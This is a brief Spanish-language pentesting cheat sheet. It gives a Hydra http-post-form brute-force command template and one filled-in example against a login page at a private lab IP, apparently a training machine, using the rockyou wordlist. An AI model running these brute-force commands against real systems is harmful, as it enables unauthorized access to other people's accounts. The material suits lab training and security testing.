 Deberemos usar una herramienta como *Burpsuite* para extraer los datos de la petición para usar la fuerza bruta.

# HYDRA

# Petición Post
```bash
hydra -l <"Usuario"> -P <"Diccionario de contraseñas"> <"IP Victima"> http-post-form "<"URL Peticion">:<"Campo peticion usuario">=<"Usuario">&<"Campo peiticion contraseña">=^PASS^:<"Texto en el HTML que indique error">"
```

```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```